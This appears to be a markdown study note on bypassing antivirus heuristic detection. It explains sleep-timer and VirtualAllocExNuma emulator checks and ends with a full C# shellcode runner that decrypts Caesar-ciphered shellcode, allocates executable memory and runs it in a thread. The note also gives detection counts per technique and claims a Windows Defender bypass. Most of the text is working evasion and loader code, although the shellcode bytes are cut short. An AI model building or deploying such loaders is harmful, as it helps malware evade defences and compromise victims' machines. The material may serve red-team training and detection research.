 # Messing with Our Behavior

Modern antivirus (AV) products use **heuristic detection** in addition to signatures.

- **Signature detection**: Matches known byte patterns.
- **Heuristic detection**: Simulates program execution in a sandbox/emulator to detect suspicious behavior.

To bypass heuristics, malware/stagers must:

1. **Behave differently** in an emulator vs. a real system.
2. Detect simulation, then safely exit before running suspicious code.

### Technique 1: Sleep Timer Evasion

### Concept:

- AV emulators **fast-forward** through time delays (e.g., `Sleep`) to avoid waiting.
- By measuring **real elapsed time**, malware can detect if execution was emulated.

### Example:

C# Shellcode Runner modified with `Sleep`:

```csharp
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);

static void Main(string[] args)
{
    DateTime t1 = DateTime.Now;

    Sleep(2000);  // request 2s delay

    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;

    if (t2 < 1.5)  // emulator fast-forwarded
    {
        return; // exit safely, don’t run payload
    }

    // otherwise, continue with malicious code...
}
```

- Uses `DateTime.Now` and `Subtract()` to measure elapsed time.
- If <1.5s → likely emulator → quit early.
- If >1.5s → real host → continue payload.

### Results:

- Using **unencrypted shellcode runner** → 11 AV engines detected (same as baseline).
- Combining **Sleep timer + Caesar cipher encryption** → only 6 detections.
    - ✅ Successfully bypassed **Windows Defender**.

### Technique 2: Non-Emulated APIs

### Concept:

- AV emulators don’t fully implement all Win32 APIs.
- Some obscure APIs fail inside emulators, but work on real machines.
- Malware can call such APIs → if they fail → assume emulation → exit safely.

### Example: `VirtualAllocExNuma`

Two function prototypes:

```c
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

LPVOID VirtualAllocExNuma(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect,
  DWORD  nndPreferred
);

```

C# Import (`DllImport`):

```csharp
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(
    IntPtr hProcess, IntPtr lpAddress, uint dwSize,
    UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

[DllImport("kernel32.dll")]
static extern IntPtr GetCurrentProcess();
```

Usage in Shellcode Runner:

```csharp
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(),
    IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);

if (mem == IntPtr.Zero)
{
    return; // emulator failed → exit
}

```

- Works like `VirtualAllocEx`, but with NUMA optimization (rarely used).
- AV emulator often fails → returns `NULL`.
- If failure → assume sandbox → exit.
- On real host → succeeds → continue with payload.

### Results:

- With **Caesar cipher + VirtualAllocExNuma check** → only **4 detections** left on AntiScan.me.
- ✅ Stronger bypass than Sleep alone.

### 📊 Comparison of Results
| Technique | Detections (AntiScan.me) |
| --- | --- |
| Plain C# shellcode runner | 11 / 26 |
| Caesar cipher (encrypted shellcode) | 7 / 26 |
| Caesar cipher + Sleep timer check | 6 / 26 |
| Caesar cipher + VirtualAllocExNuma | 4 / 26 |


# Full code 
**with Caesar cipher (encrypted shellcode) +  Sleep timer check + VirtualAllocExNuma**
```csharp
using System;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        // Win32 API imports
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
            uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
            uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle,
            UInt32 dwMilliseconds);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(
            IntPtr hProcess, IntPtr lpAddress, uint dwSize,
            UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();
        static void Main(string[] args)
        {
            DateTime t1 = DateTime.Now;

            Sleep(2000);  // request 2s delay

            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;

            if (t2 < 1.5)  // emulator fast-forwarded
            {
                return; // exit safely, don’t run payload
            }
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(),
                IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);

            if (mem == IntPtr.Zero)
            {
                return; // emulator failed → exit
            }


            //  Encrypted shellcode (from Helper app)
            byte[] buf = new byte[] {
                0xfe, 0x4a, 0x85, 0xe6, 0xf2, 0xea, 0xce, 0x02, 0x02,....
            };

            //  Decrypt shellcode at runtime (Caesar Cipher, key=2)
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }

            //  Allocate memory for shellcode
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)buf.Length,
                0x3000, 0x40); // MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE

            //  Copy decrypted shellcode into memory
            Marshal.Copy(buf, 0, addr, buf.Length);

            //  Create thread to run shellcode
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr,
                IntPtr.Zero, 0, IntPtr.Zero);

            //  Wait indefinitely for shellcode execution
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```
